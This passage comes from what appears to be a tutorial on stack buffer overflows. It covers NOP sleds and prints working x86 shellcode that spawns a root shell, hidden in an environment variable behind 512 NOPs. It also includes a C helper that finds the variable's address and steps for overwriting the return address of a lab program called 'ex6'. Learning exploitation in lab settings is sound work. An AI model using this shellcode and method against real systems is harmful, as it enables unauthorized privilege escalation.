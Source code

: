 What is so good about using NOPs? If we use a NOP-sled, we no longer need to point the return address to the exact location of the shellcode. We simply point it to the middle of the NOP-sled located higher in the stack. This will make sure that the ENTIRE shellcode is executed properly and that no memory violations will occur. However, we only have 76 bytes to mess with. That's not enough. If we had over 100, we could probably use the buffer itself. In this case, we need another way to put more NOPs into the memory before the shellcode. To do this, we can load the shellcode and NOPs into an environmental variable.

```
export shell=$(python -c 'print "\x90"*512 + "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80"')
```

I've added 512 bytes before the shellcode so we can adjust the return address later. We need a way to find the memory of the variable. This simple C program will help us.

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	printf("%p\n", getenv("shell"));
}
```

To construct our final overflow attack, we need to add shell to the environmental variables (memory). Then, we will run our shell program to find the memory address of shell. Finally, we will run ex6 with 76 Bs and a return address that matches the one outputted by our shell program. If errors occur, we will adjust the value of the return address to higher memory addresses until it works.

![](finalover.png "Figure 8: Constructing and performing the final attack on ex6")

Notice that we had to adjust the return address to a value in the middle of the NOP-sled to get a shell.

### I Dislike Math
